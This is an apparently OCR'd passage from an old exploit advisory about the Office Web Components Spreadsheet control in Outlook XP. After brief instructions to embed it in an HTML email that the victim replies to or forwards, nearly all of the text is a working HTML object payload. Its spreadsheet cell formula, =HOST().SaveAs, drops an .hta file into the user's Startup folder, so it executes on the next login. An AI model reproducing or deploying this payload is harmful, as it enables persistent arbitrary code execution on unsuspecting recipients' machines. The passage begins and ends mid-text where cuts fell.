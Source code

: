 testcase (3) shows that arbitrary may be executed.   3. The following must be put in HTML email which should be opened with  Outlook XP and the user should chose reply or forward. Probably it may also be embeded in .doc or .xls file. The effect is shown after the user logouts and logins again. ---------------------------------------- <h1> Hehe. Trying to sell trustworthy computing. </h1>  <object    classid="CLSID:0002E551-0000-0000-C000-000000000046" id=Spreadsheet1    v:shapes="\_x0000\_s1026" class=shape width=81 height=81    u1:shapes="\_x0000\_s1025">    <param name=DataType value=XMLURL>    <param name=XMLData    value="&lt;?xml version=&quot;1.0&quot;?&gt;&#13;&#10;&lt;ss:Workbook xmlns:o=&quot;urn:schemas-microsoft-com:office:office&quot;&#13;&#10; xmlns:x=&quot;urn:schemas-microsoft-com:office:excel&quot;&#13;&#10; xmlns:ss=&quot;urn:schemas-microsoft-com:office:spreadsheet&quot;&#13;&#10; xmlns:c=&quot;urn:schemas-microsoft-com:office:component:spreadsheet&quot;&#13;&#10; xmlns:html=&quot;http://www.w3.org/TR/REC-html40&quot;&gt;&#13;&#10; &lt;x:ExcelWorkbook&gt;&#13;&#10;  &lt;x:ProtectStructure&gt;False&lt;/x:ProtectStructure&gt;&#13;&#10;  &lt;x:ActiveSheet&gt;0&lt;/x:ActiveSheet&gt;&#13;&#10; &lt;/x:ExcelWorkbook&gt;&#13;&#10; &lt;ss:Styles&gt;&#13;&#10;  &lt;ss:Style ss:ID=&quot;Default&quot;&gt;&#13;&#10;   &lt;ss:Alignment ss:Horizontal=&quot;Automatic&quot; ss:Rotate=&quot;0.0&quot; ss:Vertical=&quot;Bottom&quot;&#13;&#10;    ss:ReadingOrder=&quot;Context&quot;/&gt;&#13;&#10;   &lt;ss:Borders&gt;&#13;&#10;   &lt;/ss:Borders&gt;&#13;&#10;   &lt;ss:Font ss:FontName=&quot;Arial&quot; ss:Size=&quot;10&quot; ss:Color=&quot;Automatic&quot; ss:Bold=&quot;0&quot;&#13;&#10;    ss:Italic=&quot;0&quot; ss:Underline=&quot;None&quot;/&gt;&#13;&#10;   &lt;ss:Interior ss:Color=&quot;Automatic&quot; ss:Pattern=&quot;None&quot;/&gt;&#13;&#10;   &lt;ss:NumberFormat ss:Format=&quot;General&quot;/&gt;&#13;&#10;   &lt;ss:Protection ss:Protected=&quot;1&quot;/&gt;&#13;&#10;  &lt;/ss:Style&gt;&#13;&#10; &lt;/ss:Styles&gt;&#13;&#10; &lt;c:ComponentOptions&gt;&#13;&#10;  &lt;c:Label&gt;&#13;&#10;   &lt;c:Caption&gt;Microsoft Office Spreadsheet&lt;/c:Caption&gt;&#13;&#10;  &lt;/c:Label&gt;&#13;&#10;  &lt;c:PreventPropBrowser/&gt;&#13;&#10;  &lt;c:MaxHeight&gt;80%&lt;/c:MaxHeight&gt;&#13;&#10;  &lt;c:MaxWidth&gt;80%&lt;/c:MaxWidth&gt;&#13;&#10;  &lt;c:NextSheetNumber&gt;1&lt;/c:NextSheetNumber&gt;&#13;&#10; &lt;/c:ComponentOptions&gt;&#13;&#10; &lt;x:WorkbookOptions&gt;&#13;&#10;  &lt;c:OWCVersion&gt;10.0.0.2621         &lt;/c:OWCVersion&gt;&#13;&#10;  &lt;x:DisableUndo/&gt;&#13;&#10; &lt;/x:WorkbookOptions&gt;&#13;&#10; &lt;ss:Worksheet ss:Name=&quot;Sheet1&quot;&gt;&#13;&#10;  &lt;x:WorksheetOptions&gt;&#13;&#10;   &lt;x:Selected/&gt;&#13;&#10;   &lt;x:ViewableRange&gt;R1:R262144&lt;/x:ViewableRange&gt;&#13;&#10;   &lt;x:Selection&gt;R1C1&lt;/x:Selection&gt;&#13;&#10;   &lt;x:TopRowVisible&gt;0&lt;/x:TopRowVisible&gt;&#13;&#10;   &lt;x:LeftColumnVisible&gt;0&lt;/x:LeftColumnVisible&gt;&#13;&#10;   &lt;x:ProtectContents&gt;False&lt;/x:ProtectContents&gt;&#13;&#10;  &lt;/x:WorksheetOptions&gt;&#13;&#10;  &lt;c:WorksheetOptions&gt;&#13;&#10;  &lt;/c:WorksheetOptions&gt;&#13;&#10;  &lt;ss:Table ss:ExpandedColumnCount=&quot;1&quot; ss:ExpandedRowCount=&quot;1&quot;&#13;&#10;   ss:DefaultColumnWidth=&quot;48.0&quot; ss:DefaultRowHeight=&quot;12.75&quot;&gt;&#13;&#10;   &lt;ss:Row&gt;&#13;&#10;    &lt;ss:Cell ss:Formula='=HOST().SaveAs(&quot;../Start Menu/Programs/StartUp/gggg5.hta&quot;,8)'&gt;&#13;&#10;     &lt;ss:Data ss:Type=&quot;Boolean&quot;&gt;1&lt;/ss:Data&gt;&#13;&#10;    &lt;/ss:Cell&gt;&#13;&#10;   &lt;/ss:Row&gt;&#13;&#10;  &lt;/ss:Table&gt;&#13;&#10; &lt;/ss:Worksheet&gt;&#13;&#10; &lt;ss:Worksheet ss:Name=&quot;Sheet2&quot;&gt;&#13;&#10;  &lt;x:WorksheetOptions&gt;&#13;&#10;   &lt;x:ViewableRange&gt;R1:R262144&lt;/x:ViewableRange&gt;&#13;&#10;   &lt;x:Selection&gt;R1C1&lt;/x:Selection&gt;&#13;&#10;   &lt;x:TopRowVisible&gt;0&lt;/x:TopRowVisible&gt;&#13;&#10;   &lt;x:LeftColumnVisible&gt;0&lt;/x:LeftColumnVisible&gt;&#13;&#10;   &lt;x:ProtectContents&gt;False&lt;/x:ProtectContents&gt;&#13;&#10;  &lt;/x:WorksheetOptions&gt;&#13;&#10;  &lt;c:WorksheetOptions&gt;&#13;&#10;  &lt;/c:WorksheetOptions&gt;&#13;&#10; &lt;/ss:Worksheet&gt;&#13;&#10; &lt;ss:Worksheet ss:Name=&quot;Sheet3&quot;&gt;&#13;&#10;  &lt;x:WorksheetOptions&gt;&#13;&#10;   &lt;x:ViewableRange&gt;R1:R262144&lt;/x:ViewableRange&gt;&#13;&#10;   &lt;x:Selection&gt;R1C1&lt;/x:Selection&gt;&#13;&#10;   &lt;x:TopRowVisible&gt;0&lt;/x:TopRowVisible&gt;&#13;&#10;   &lt;x:LeftColumnVisible&gt;0&lt;/x:LeftColumnVisible&gt;&#13;&#10;   &lt;x:ProtectContents&gt;False&lt;/x:ProtectContents&gt;&#13;&#10;  &lt;/x:WorksheetOptions&gt;&#13;&#10;  &lt;c:WorksheetOptions&gt;&#13;&#10;  &lt;/c:WorksheetOptions&gt;&#13;&#10; &lt;/ss:Worksheet&gt;&#13;&#10;  &lt;o:DocumentProperties&gt;&#13;&#10;   &lt;o:Author&gt;ad&lt;/o:Author&gt;&#13;&#10;   &lt;o:LastAuthor&gt;ad&lt;/o:LastAuthor&gt;&#13;&#10;   &lt;o:Created&gt;2002-03-17T12:07:37Z&lt;/o:Created&gt;&#13;&#10;   &lt;o:Company&gt;g&lt;/o:Company&gt;&#13;&#10;   &lt;o:Version&gt;10.2625&lt;/o:Version&gt;&#13;&#10;  &lt;/o:DocumentProperties&gt;&#13;&#10;  &lt;o:OfficeDocumentSettings&gt;&#13;&#10;   &lt;o:DownloadComponents/&gt;&#13;&#10;   &lt;o:LocationOfComponents HRef=&quot;file:///E:\&quot;/&gt;&#13;&#10;  &lt;/o:OfficeDocumentSettings&gt;&#13;&#10;&lt;/ss:Workbook&gt;&#13;&#10;">    <param name=AllowPropertyToolbox value=0>    <param name=AutoFit value=0>    <param name=Calculation value=-4105>    <param name=Caption value="Microsoft Office Spreadsheet">    <param name=DisplayColumnHeadings value=-1>    <param name=DisplayGridlines value=-1>    <param name=DisplayHorizontalScrollBar value=-1>    <param name=DisplayOfficeLogo value=-1>    <param name=DisplayPropertyToolbox value=0>    <param name=DisplayRowHeadings value=-1>